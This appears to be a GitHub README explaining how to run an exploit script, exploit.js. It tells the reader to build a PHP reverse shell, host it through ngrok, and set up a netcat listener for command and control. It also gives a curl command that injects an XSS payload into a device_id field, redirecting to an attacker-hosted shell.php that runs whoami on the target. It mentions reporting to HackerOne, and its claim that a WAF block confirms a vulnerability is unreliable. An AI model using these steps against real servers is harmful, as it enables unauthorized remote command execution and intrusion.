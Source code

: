 In order to use this test file, please follow the instructions below:

First, you'll need to create a php reverse shell payload and tunnel this through ngrok. You'll require a secondary server or to use ngrok to host the file that will be uploaded to the remote server as well. Once you have this ready then you can proceed (or you can use the reverse shell code from my GitHub. If you choose to use my php shell code. You can either configure it with netcat listener or you can create an output file to your server for the reverse listener to output the information captured from the remote server that's being attacked with the reverse shell. If you choose to not use the output file then you can remove it from the shell code and open a nc listener to the loopback address which you opened ngrok on to get the command and control) 

Dependencies required are npm and node.js

sudo su
apt-get update
apt-get install nodejs
apt-get install npm

Once done. Clone the repository and follow these commands:

npm init -y
npm install http

Finally, run the exploit using this command:

node exploit.js

Done.

Please note that if you receive any errors such as 301 Permanently Moved by CloudFlare then it's obviously CloudFlare that's blocking the endpoint from receiving the request. Nonetheless, this test will work in other ways.

To check if a WAF is responsible for the 301 Permanently Moved, confirm with a curl command: 

curl -X POST -H "Content-Type: application/json" -d '{"device_id":"<img src=x onerror=\"window.location='http://[SECONDARY HOST OF THE REVERSE SHELL OR NGROK CONTAINING THE PAYLOAD TO EXECUTE TO REMOTE SERVER]/shell.php?cmd=$(whoami)'\">"}' https://[HOSTNAME OF THE VULNERABLE ENDPOINT]/[VULNERABLE ENDPOINT]

If you receive an error from the WAF saying that the request was blocked due to the execution of an arbitrary code such as SQL then the target is vulnerable and you can report it to HackerOne.
